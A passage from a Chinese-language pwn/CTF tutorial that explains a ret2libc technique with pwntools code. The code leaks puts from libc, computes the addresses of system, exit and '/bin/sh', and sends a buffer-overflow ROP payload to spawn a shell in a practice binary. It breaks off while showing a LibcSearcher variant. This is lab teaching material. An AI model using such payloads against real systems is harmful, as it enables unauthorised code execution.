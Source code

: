 4. 拿到返回的puts的绝对地址后，通过绝对和相对的差，算出需要的`system` `binsh` `exit`的绝对地址

	```python
	p.recvline()#ebp
	p.recvline()#buffer
	p.recvline()#ebp-buf
	p.recvline()
	leak = p.recv(4)#接受4个字节，也就是32bits
	puts_libc = u32(leak)
	log.info("puts@libc: 0x%x" % puts_libc)
	p.clean()
	
	# # Calculate the required libc functions
	libc_base = puts_libc - offset_puts
	system_addr = libc_base + offset_system
	binsh_addr = libc_base + offset_str_bin_sh
	exit_addr = libc_base + offset_exit
	```

5. 将栈中布局设置为3个连续的返回地址，因为在每一次进入那个函数的时候都会去自动找返回地址，所以每一个函数中都自带ret，就可以实现放几个地址进几个函数，最后回到最高的地址位。

	```python
	rop2  = p32(system_addr)
	rop2 += p32(exit_addr)
	rop2 += p32(binsh_addr)
	
	payload2 = "A"*(0x28 + 4) + rop2 + '\n'
	```

6. 然后把这些东西都输出，你就拿到了所有地址

	```
	log.info("libc base: 0x%x" % libc_base)
	log.info("system@libc: 0x%x" % system_addr)
	log.info("binsh@libc: 0x%x" % binsh_addr)
	log.info("exit@libc: 0x%x" % exit_addr)
	```

7. 之后程序就会运行binsh

整个的流程就是`main-vul-puts-main-vul-system-exit-binsh`程序会不断回到main，调用vul，被篡改返回地址，最后拿到binsh_addr的时候就可以跳出了。



### 这里还有一种方法

https://baijiahao.baidu.com/s?id=1668554718579472983&wfr=spider&for=pc

利用libcSearcher的库去找位置，大概的使用方法如下。

```python
from pwn import *

from LibcSearcher import *

context.log_level="debug"

p=process("./01_shellcodeAgain")

elf=ELF("./01_shellcodeAgain")
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']

log.info("puts_plt: 0x%x",puts_plt)
log.info("puts_got: 0x%x",puts_got)

#因为虚拟机我们没有权限所以没办法加代码包，所以这个用不了
#
```